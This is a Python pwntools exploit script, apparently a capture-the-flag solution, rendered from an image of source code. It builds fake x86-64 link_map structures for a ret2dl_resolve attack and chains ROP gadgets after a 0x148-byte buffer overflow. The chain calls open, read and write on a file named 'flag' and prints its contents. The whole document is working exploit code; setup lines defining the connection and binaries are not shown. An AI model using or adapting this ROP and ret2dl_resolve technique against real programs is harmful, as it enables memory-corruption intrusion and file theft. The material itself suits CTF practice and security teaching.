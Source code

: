 ```python


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()



luckynum = [4091897675,4091897725,4091897731]

def ret2dl_resolve_linkmap_x64(ELF_obj,known_offset_addr,two_offset,linkmap_addr):
	plt0 = ELF_obj.get_section_by_name('.plt').header.sh_addr
	linkmap=""
	linkmap+=p64(two_offset&(2**64-1))
	linkmap+=p64(0)+p64(linkmap_addr+0x18)
	linkmap+=p64((linkmap_addr+0x30-two_offset)&(2**64-1))+p64(0x7)+p64(0)
	linkmap+=p64(0)
	linkmap+=p64(0)+p64(known_offset_addr-8)
	linkmap+='flag\x00'#for open offset 0x48
	linkmap = linkmap.ljust(0x68,'A')
	linkmap+=p64(linkmap_addr)
	linkmap+=p64(linkmap_addr+0x38)
	linkmap = linkmap.ljust(0xf8,'A')
	linkmap+=p64(linkmap_addr+8)

	resolve_call = p64(plt0+6)+p64(linkmap_addr)+p64(0)
	return (linkmap,resolve_call)


prdi=0x0000000000400da3
prsi_r15=0x0000000000400da1
buf = 0x602100
stage = 0x602400

prdx = 0x0000000000001b92# : pop rdx ; ret
#open
linkmap1,call1 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['open']-libc.sym['__libc_start_main'],stage)
#read
linkmap2,call2 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['read']-libc.sym['__libc_start_main'],stage+0x100)
#write
linkmap3,call3 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],libc.sym['write']-libc.sym['__libc_start_main'],stage+0x200)
#set rdx
linkmap4,call4 = ret2dl_resolve_linkmap_x64(bin,bin.got['__libc_start_main'],prdx-libc.sym['__libc_start_main'],stage+0x300)

pay = 'a'*0x148+p64(prdi)+p64(stage)+p64(bin.plt['gets']) #write linkmap
pay+=p64(prdi)+p64(stage+0x48)+p64(prsi_r15)+p64(0)+p64(0)+call1 #open
pay+=p64(prdi)+p64(3)+p64(prsi_r15)+p64(buf)+p64(0)+call2 # read
pay+=call4+p64(0x20) #set rdx
pay+=p64(prdi)+p64(1)+p64(prsi_r15)+p64(buf)+p64(0)+call3 #write
pay+=p64(0x400D36)

#z('b*0x0000000000400CE8\nb write\nb read\nc')
cn.sendline(pay)
sleep(0.1)
cn.sendline(linkmap1+linkmap2+linkmap3+linkmap4)


cn.interactive()
```